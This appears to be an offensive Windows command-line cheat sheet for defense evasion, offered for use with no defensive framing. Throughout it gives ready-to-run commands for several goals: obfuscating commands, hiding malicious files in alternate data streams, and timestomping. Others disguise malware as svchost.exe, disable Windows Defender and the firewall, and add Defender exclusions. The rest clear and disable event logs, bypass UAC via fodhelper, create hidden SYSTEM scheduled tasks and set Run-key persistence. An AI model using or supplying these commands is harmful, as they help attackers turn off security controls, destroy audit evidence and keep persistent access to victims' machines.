 # Obfuscating Commands

#### Base64 Encoding CMD Commands
- Use PowerShell to base64 encode CMD commands:
```cmd
powershell -NoProfile -Command "[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('whoami'))"
```
- Decode and execute:
```cmd
powershell.exe -EncodedCommand <Base64String>
```

#### Command Obfuscation Using Carets
- Use carets (`^`) to break commands into smaller parts:
```cmd
who^a^mi
```

#### Using Double Quotes for Obfuscation
- Use double quotes in commands to bypass filters:
```cmd
"whoami"
```

# Hiding Files and Directories

#### Creating Hidden Files and Directories
- Create a hidden directory:
```cmd
mkdir C:\Windows\Temp\hidden_dir
attrib +h C:\Windows\Temp\hidden_dir
```
- Create a hidden file:
```cmd
echo Malicious Content > C:\Windows\Temp\hidden_file.txt
attrib +h C:\Windows\Temp\hidden_file.txt
```

#### Renaming Malicious Files to Legitimate Names
- Rename a malicious file to look legitimate:
```cmd
rename C:\Temp\malicious.exe svchost.exe
```

#### Hiding Files Using Alternate Data Streams (ADS)
- Attach data to a file using ADS:
```cmd
echo Malicious Code > C:\Windows\System32\notepad.exe:hidden.txt
```
- Access the hidden stream:
```cmd
more < C:\Windows\System32\notepad.exe:hidden.txt
```

# Modifying File Timestamps (Timestomping)

#### Change File Creation Time
- Modify the file creation time using `wmic`:
```cmd
wmic datafile where name="C:\\path\\to\\file.txt" set CreationDate="20220915123456.000000+000"
```

# Process and Task Hiding

#### Starting a Process with Hidden Window
- Start a CMD process with a hidden window:
```cmd
start /min cmd.exe /c <command>
```

#### Tasklist Obfuscation
- Rename a process by copying to another legitimate-looking process name:
```cmd
copy C:\Temp\malicious.exe C:\Windows\System32\svchost.exe
```

# Disabling Security Tools

#### Disable Windows Defender
- Disable Windows Defender real-time protection:
```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableRealtimeMonitoring /t REG_DWORD /d 1 /f
```

#### Add Exclusions to Windows Defender
- Add an exclusion path:
```cmd
powershell -command "Add-MpPreference -ExclusionPath 'C:\MaliciousPath'"
```
- Add a process exclusion:
```cmd
powershell -command "Add-MpPreference -ExclusionProcess 'malicious.exe'"
```

#### Disable Windows Firewall
- Disable the firewall for all profiles:
```cmd
netsh advfirewall set allprofiles state off
```

# Clearing and Disabling Event Logs

#### Clearing Event Logs
- Clear system log:
```cmd
wevtutil cl System
```
- Clear security log:
```cmd
wevtutil cl Security
```

#### Disabling Event Logs
- Disable specific event providers:
```cmd
wevtutil sl Microsoft-Windows-Security-Auditing /e:false
```

#### Disable Windows Event Log Service
- Stop the event log service:
```cmd
net stop eventlog
```

# Bypassing User Account Control (UAC)

#### UAC Bypass Using Event Viewer
- Bypass UAC by running Event Viewer as a high-privilege process:
```cmd
eventvwr.msc
```

#### UAC Bypass Using Fodhelper
- Modify the registry to execute PowerShell:
```cmd
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /d "cmd.exe /c <command>" /f
start fodhelper.exe
```

# Manipulating Scheduled Tasks

#### Create a Hidden Scheduled Task
- Create a scheduled task with no user interface:
```cmd
schtasks /create /tn "HiddenTask" /tr "cmd.exe /c <command>" /sc onstart /ru SYSTEM /f /it /np
```

#### Disabling Task Logs
- Create a scheduled task that suppresses output:
```cmd
schtasks /create /tn "NoLogTask" /tr "cmd.exe /c <command> > NUL 2>&1" /sc onstart /ru SYSTEM
```

# Obfuscating and Manipulating the Registry

#### Hiding a Malicious Program in the Registry
- Create a registry key to run a malicious program at startup:
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Path\to\malicious.exe" /f
```

#### Deleting Evidence from the Registry
- Delete the malicious registry entry:
```cmd
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /f
```

# Network Evasion Techniques

#### Flushing DNS Cache
- Clear the DNS cache to remove evidence of DNS queries:
```cmd
ipconfig /flushdns
```

#### Disable Network Adapter Temporarily
- Disable a network adapter to evade detection:
```cmd
netsh interface set interface "Ethernet" admin=disable
```
- Re-enable the network adapter:
```cmd
netsh interface set interface "Ethernet" admin=enable
```

#### Modify Hosts File for Redirection
- Redirect traffic by modifying the hosts file:
```cmd
echo 127.0.0.1 malicious-site.com >> C:\Windows\System32\drivers\etc\hosts
```
